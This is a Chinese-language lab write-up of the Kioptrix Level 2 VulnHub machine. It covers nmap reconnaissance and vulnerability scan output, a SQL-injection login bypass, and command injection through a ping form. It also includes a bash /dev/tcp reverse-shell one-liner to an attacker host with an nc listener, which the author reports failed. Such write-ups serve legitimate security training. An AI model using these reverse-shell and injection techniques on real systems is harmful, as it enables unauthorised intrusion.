# 0x02Kioptrix命令注入+内核提权
## description
link: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
Description
Back to the Top
KIOPTRIX VM IMAGE CHALLENGES:
This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

This is the second release of #2. First release had a bug in it with the web application

2012/Feb/09: Re-releases

2011/Feb/11: Original Release

Virtual Machine
Back to the Top
Format: Virtual Machine (VMware)
Operating System: Linux
Networking
Back to the Top
DHCP service: Enabled
IP address: Automatically assign
## 流程
### 主机发现
```
nmap 172.16.0.1/24 -sn --min-rate 3333 -r
```


> 扫描IP :nmap <ip>
>扫描多个IP：nmap <ip1> <ip2>…
>扫描IP段：nmap <192.168.0.1-100>
>扫描子网：nmap <192.168.0.1/24>
>-sn Ping Scan - disable port scan 
>--min-rate 指定发包速率
>-r ：Scan ports sequentially - don't randomize
发现226主机存活
### 端口扫描
```
nmap 172.16.0.226 -p- --min-rate 8834 -r -Pn -oA resultes_scan/port_scan
```


>-p- ： 指定所有端口 
>-Pn :Treat all hosts as online -- skip host discovery  跳过主机发现阶段
>-oA: Output in the three major formats at once 将结果输出到指定目录下，以三种格式进行存储
发现22,80,111,443,631,789,3306端口开放（扫描的问题）
### 导出端口
查看.nmap 文件


```
cat port_scan.nmap|grep open|awk -F '/' '{print $1}'|tr '\n'  ','
```


cat打开文件，grep 定位到并提取open 字段，用awk -F选项指定/为分隔符，将第一列打印出来，用tr将\n替换为,
### 服务信息
```
nmap -sV -sC -O --version-all -oA server_info 172.16.0.226 -p 22,80,111,443,631,789,3306
```


```-sV: Probe open ports to determine service/version info 探测开放端口服务或版本信息
-sC:equivalent to --script=default 使用默认脚本
--version-all: Try every single probe (intensity 9)
-O: Enable OS detection
```
### 漏洞探测
```
nmap --script=vuln 172.16.0.226 -p 22,80,111,443,631,789,3306 -oA vuln.info
```
``` 
# Nmap 7.94 scan initiated Sun Jul 30 16:31:04 2023 as: nmap --script=vuln -p 22,80,111,443,631,789,3306 -oA vuln.info 172.16.0.226
Nmap scan report for 172.16.0.226
Host is up (0.0022s latency).

PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=172.16.0.226
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://172.16.0.226:80/
|     Form id: frmlogin
|     Form action: index.php
|
|     Path: http://172.16.0.226:80/index.php
|     Form id: frmlogin
|_    Form action: index.php
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-trace: TRACE is enabled
111/tcp  open     rpcbind
443/tcp  open     https
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-dombased-xss: Couldn't find any DOM based XSS.
| ssl-poodle:
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:  BID:70574  CVE:CVE-2014-3566
|           The SSL protocol 3.0, as used in OpenSSL through 1.0.1i and other
|           products, uses nondeterministic CBC padding, which makes it easier
|           for man-in-the-middle attackers to obtain cleartext data via a
|           padding-oracle attack, aka the "POODLE" issue.
|     Disclosure date: 2014-10-14
|     Check results:
|       TLS_RSA_WITH_AES_128_CBC_SHA
|     References:
|       https://www.securityfocus.com/bid/70574
|       https://www.openssl.org/~bodo/ssl-poodle.pdf
|       https://www.imperialviolet.org/2014/10/14/poodle.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3566
| ssl-ccs-injection:
|   VULNERABLE:
|   SSL/TLS MITM vulnerability (CCS Injection)
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL before 0.9.8za, 1.0.0 before 1.0.0m, and 1.0.1 before 1.0.1h
|       does not properly restrict processing of ChangeCipherSpec messages,
|       which allows man-in-the-middle attackers to trigger use of a zero
|       length master key in certain OpenSSL-to-OpenSSL communications, and
|       consequently hijack sessions or obtain sensitive information, via
|       a crafted TLS handshake, aka the "CCS Injection" vulnerability.
|
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0224
|       http://www.cvedetails.com/cve/2014-0224
|_      http://www.openssl.org/news/secadv_20140605.txt
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=172.16.0.226
|   Found the following possible CSRF vulnerabilities:
|
|     Path: https://172.16.0.226:443/
|     Form id: frmlogin
|     Form action: index.php
|
|     Path: https://172.16.0.226:443/index.php
|     Form id: frmlogin
|_    Form action: index.php
|_sslv2-drown: ERROR: Script execution failed (use -d to debug)
| ssl-dh-params:
|   VULNERABLE:
|   Transport Layer Security (TLS) Protocol DHE_EXPORT Ciphers Downgrade MitM (Logjam)
|     State: VULNERABLE
|     IDs:  BID:74733  CVE:CVE-2015-4000
|       The Transport Layer Security (TLS) protocol contains a flaw that is
|       triggered when handling Diffie-Hellman key exchanges defined with
|       the DHE_EXPORT cipher. This may allow a man-in-the-middle attacker
|       to downgrade the security of a TLS session to 512-bit export-grade
|       cryptography, which is significantly weaker, allowing the attacker
|       to more easily break the encryption and monitor or tamper with
|       the encrypted stream.
|     Disclosure date: 2015-5-19
|     Check results:
|       EXPORT-GRADE DH GROUP 1
|             Cipher Suite: TLS_DHE_RSA_EXPORT_WITH_DES40_CBC_SHA
|             Modulus Type: Safe prime
|             Modulus Source: mod_ssl 2.0.x/512-bit MODP group with safe prime modulus
|             Modulus Length: 512
|             Generator Length: 8
|             Public Key Length: 512
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4000
|       https://www.securityfocus.com/bid/74733
|       https://weakdh.org
|
|   Diffie-Hellman Key Exchange Insufficient Group Strength
|     State: VULNERABLE
|       Transport Layer Security (TLS) services that use Diffie-Hellman groups
|       of insufficient strength, especially those using one of a few commonly
|       shared groups, may be susceptible to passive eavesdropping attacks.
|     Check results:
|       WEAK DH GROUP 1
|             Cipher Suite: TLS_DHE_RSA_WITH_AES_128_CBC_SHA
|             Modulus Type: Safe prime
|             Modulus Source: mod_ssl 2.0.x/1024-bit MODP group with safe prime modulus
|             Modulus Length: 1024
|             Generator Length: 8
|             Public Key Length: 1024
|     References:
|_      https://weakdh.org
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
631/tcp  open     ipp
789/tcp  filtered unknown
3306/tcp open     mysql

# Nmap done at Sun Jul 30 16:43:25 2023 -- 1 IP address (1 host up) scanned in 740.80 seconds
```                                                                                   
发现mysql未授权（作者发现，本人未扫出该漏洞），尝试连接

```-h, --host=name     Connect to host
```
不允许本机连接
浏览器访问80端口,发现登录框
尝试使用万能密码注入登录

登录后为一个ping的输入框

尝试远程命令执行

执行成功
查看bash版本

```
echo $0 //查看当前shell类型
whoami //查看当前用户
<shell name> //切换shell
```
反弹shell
```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1或bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1
bash -i：产生一个bash交互环境。
 >&:将联合符号前面的内容与后面相结合，然后一起重定向给后者
 /dev/tcp/47.xxx.xxx.72/2333 :Linux环境中所有的内容都是以文件的形式存在的，让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。
 0>&1:将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容
Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。
```
本地监听
```
nc -lvvp 2333
```
本次反弹shell失败，无法进行后续渗透
后续流程
根据内核版本和系统版本，寻找漏洞，提权为root用户